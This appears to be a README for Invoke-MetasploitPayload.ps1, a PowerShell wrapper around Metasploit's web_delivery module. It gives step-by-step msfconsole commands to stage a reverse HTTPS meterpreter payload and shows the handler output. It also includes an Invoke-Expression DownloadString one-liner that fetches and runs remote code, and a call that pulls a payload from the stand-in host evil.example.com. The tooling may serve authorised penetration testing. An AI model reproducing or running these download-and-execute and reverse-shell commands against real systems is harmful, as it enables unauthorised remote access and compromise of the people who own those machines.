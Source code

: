 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery Metasploit module
The web_delivery Metasploit module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```

By default, the module will generate a random string to be used as the URL for the script webserver. You can specify your own with the URIPATH variable.

```
set URIPATH posh-payload
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```

Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://0.0.0.0:8080/posh-payload
[*] Local IP: http://10.211.55.4:8080/posh-payload
[*] Server started.
```

#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. If you specified a URIPATH, this will be something like `http://[IP_OF_METASPLOIT_INSTANCE]/[URIPATH]` else it will have random characters for the URL (`http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM_CHARACTERS]`).

This URL is what you'll pass to `Invoke-MetasploitPayload`. 

_**You can ignore the line about "Run the following command on the target machine"**_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-MetasploitPayload.ps1

Usage is simple, first execute the PS1 file.

```
PS> Invoke-Expression (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/pfussell/Invoke-MetasploitPayload/master/Inv
oke-MetasploitPayload.ps1")
```

Then just pass the URL from the web_delivery module to Invoke-MetasploitPayload. It will handle spinning up a new process and then downloading and executing the script.
```
PS> Invoke-MetasploitPayload "http://evil.example.com/SDFJLWKS"
```

#### Acknowledgements

Invoke-MetasploitPayload is really just a repackaging of the PowerShell commands provided by the [web_delivery module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/script/web_delivery.rb) to download and execute the script. My hats off to those authors for their hard work.
